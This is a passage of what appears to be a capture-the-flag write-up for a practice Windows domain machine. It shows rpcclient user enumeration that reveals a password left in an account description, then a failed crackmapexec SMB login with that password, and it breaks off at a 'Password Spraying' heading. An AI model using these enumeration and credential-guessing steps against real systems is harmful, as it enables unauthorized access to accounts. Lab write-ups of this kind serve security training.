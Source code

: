 Using the **querydispinfo** command, we can retrieve detailed information about user accounts on the target system. This command is particularly useful for listing display information, such as usernames, full names, and account descriptions, which can help identify potential accounts for further exploitation or enumeration.

````powershell
rpcclient $> querydispinfo
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail	Name: (null)	Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela	Name: (null)	Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette	Name: (null)	Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika	Name: (null)	Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire	Name: (null)	Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude	Name: (null)	Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount	Name: (null)	Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia	Name: (null)	Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred	Name: (null)	Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo	Name: (null)	Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus	Name: (null)	Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie	Name: (null)	Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki	Name: (null)	Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo	Name: (null)	Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per	Name: (null)	Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan	Name: Ryan Bertrand	Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally	Name: (null)	Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon	Name: (null)	Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve	Name: (null)	Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie	Name: (null)	Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita	Name: (null)	Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf	Name: (null)	Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach	Name: (null)	Desc: (null)
````

Trying to log in into marko's account.

````powershell
❯ crackmapexec smb 10.10.10.169 -u marko -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
````
### Password Spraying

---
